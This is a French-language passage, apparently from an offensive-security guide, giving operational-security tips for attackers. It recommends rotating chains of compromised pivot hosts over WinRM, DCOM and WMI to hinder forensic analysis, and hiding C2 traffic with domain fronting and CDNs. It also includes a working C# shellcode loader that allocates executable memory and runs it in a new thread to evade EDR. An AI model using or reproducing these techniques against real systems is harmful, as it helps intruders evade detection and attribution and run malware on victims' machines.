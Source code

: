 ### 4 • OPSEC Tips

#### 4.1 Architecture de pivoting distribuée et anonymisation

Implémentez une architecture de pivoting multicouche utilisant des systèmes compromis légitimement pour masquer l'origine des activités de reconnaissance. Utilisez des chaînes de pivots avec des protocoles différents (WinRM, DCOM, WMI) pour compliquer l'analyse forensique et distribuer les traces d'activité.

```powershell
# Chaîne de pivoting avec rotation automatique
$PivotChain = @(
    @{Host="pivot1.corp.local"; Protocol="WinRM"; Port=5985},
    @{Host="pivot2.corp.local"; Protocol="DCOM"; Port=135},
    @{Host="pivot3.corp.local"; Protocol="WMI"; Port=135}
)

# Rotation automatique des pivots toutes les 2 heures
$PivotRotationTimer = New-Object System.Timers.Timer(7200000)  # 2 heures
$PivotRotationTimer.Add_Elapsed({
    # Logique de rotation des pivots
    Rotate-PivotChain -Chain $PivotChain
})
```

Utilisez des techniques de "domain fronting" et des CDN légitimes pour masquer les communications C2 et les téléchargements d'outils. Cette approche rend l'attribution difficile même en cas d'analyse réseau approfondie.

#### 4.2 Manipulation des logs et évasion EDR

Les solutions EDR modernes analysent les comportements suspects et les patterns d'exécution. Implémentez des techniques de process hollowing, d'injection de code et d'exécution en mémoire pour éviter la détection par les signatures comportementales.

```csharp
// Exemple d'injection de code en mémoire pour éviter la détection
[DllImport("kernel32.dll")]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

public static void ExecuteInMemory(byte[] shellcode)
{
    IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
    Marshal.Copy(shellcode, 0, addr, shellcode.Length);
    CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
}
```
